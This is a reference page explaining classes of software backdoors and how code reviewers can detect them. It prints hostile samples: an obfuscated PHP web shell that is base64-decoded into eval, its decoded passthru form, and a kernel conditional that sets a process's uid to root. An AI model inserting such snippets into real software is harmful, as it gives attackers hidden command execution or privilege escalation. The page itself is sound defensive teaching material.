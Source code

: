 Backdoors
=========

.. contents::

Types of Backdoors
------------------
**System Backdoors** are backdoors that allow access to data and processes at the system level. Rootkits, remote access software, and delibrate system misconfiguration by an attacker fall in this category.

**Application Backdoors** are versions of legitimate software modified to bypass security mechanisms under certain conditions. These legitimate programs are meant to be installed and running on a system with the full knowledge and approval of the system administrator. Applications backdoors are often inserted in the code by someone who has legitimate access to the code. Other times the source code or binary to an application is modified by someone who has compromised the system where the source code is maintained or the binary is distributed.

**Crypto Backdoors** are a third category of backdoors. These are intentionally designed weaknesses in a cryptosystem for particular keys or messages that allow an attacker to gain access to clear-test messages that they shouldn't.

Application Backdoor Classes
----------------------------

**Special Credentials**
        The attacker inserts logic and special credentials into the program code. The special credentials are in the form of a special username, password, password hash, or key. The logic is a comparison to the special credential logic that inserts the special credential into the designed credential store.

**Detection Strategies** 
        include identifying static variables that look like usernames and passwords. Start with all strings using ASCII character set. Also inspect known crypto API calls where these strings are passed in as plaintext data.

Hidden Functionality
--------------------
**Hidden Functionality** backdoors allow the attacker to issue commands or authenticate without performing the desinged authentication procedure. Hidden funcitonality backdoors often use special parameters to trigger special logic within the program that shouldn't be there.

**Detection Strategies** 
        include recongnising common patterns in the scripting languages: create an obfuscated string, input into deobfuscation function, call eval() on the result of the deobfucsation. Payload code often allows command execution or auth bypass. Identify GET or POST parameters passed by web applications then compare them to form fields in HTML and JSP pages to find fields that only appear on the server side.

Uninntended Network Activity
----------------------------
This may involve a number of techniques including listening on undocuemented ports, making outbound connections to establish a command and control channel, or leaking sensitive information over the network via STMP, HTTP, UDP, ICMP or other protocols.

**Detection Strategies** 
        include identifying all locations in the codebase that call functions responsible for establishing connections or sending/receiving connectionless data, such as connect(), bind(), accept(), sendto(), listen() and recvfrom(). Once these calls have been identified pay particular attention to any outbound network activiity that reference a hard-coded IP address or port. Keep in mind that many applications have functionality built in to automaticallly chekc for updates, so seeing at least one hard-coded outbound connection is not uncommon.

**Manipulation of Security-Critical Parameters** 
        In any program, certain variables or parameters are more significant than others from a security standpoint. In application code, consider variables used to store the results of authentication or authorisation functions, or other security mechanisms. By directly manipulationg these parameters or introducing flawed logic to comparisons against them.

.. code-block:: c

        if ((options == (__WCLONE|__WALL)) &&
                (current->uid = 0))
                retval = -EINVAL;

The second half of the conditional assigns current->uid to zero rather than comparing it with zero. As a result, a calling process is granted root privilieges if it calls wait4() with the _WCLONE and _WALL options set.

Self-modifying Code
-------------------

Any code that modifies itself at run-time is immediately suspicious. This behaviour is used commonly in scripting languages but can just as easily appear in native code. Conider the following example in PHP

.. code-block:: php

        eval(base64_decode("cGFzc3RocnUoJF9HRVRbJ2NtZCddKTs="));

When the PHP script executes, this line of code evaluates the result of the base64_decode() operations as a PHP command. Therefore, if the decoded string contains valid PHP, it will be executed in the context of the running process.

.. code-block:: php

        eval("passthru($_GET('cmd'));})

The effect of the resulting code is to parse the "cmd" parameter from the HTTP request, and call the passthru() function, which executes the supplied command on the server.

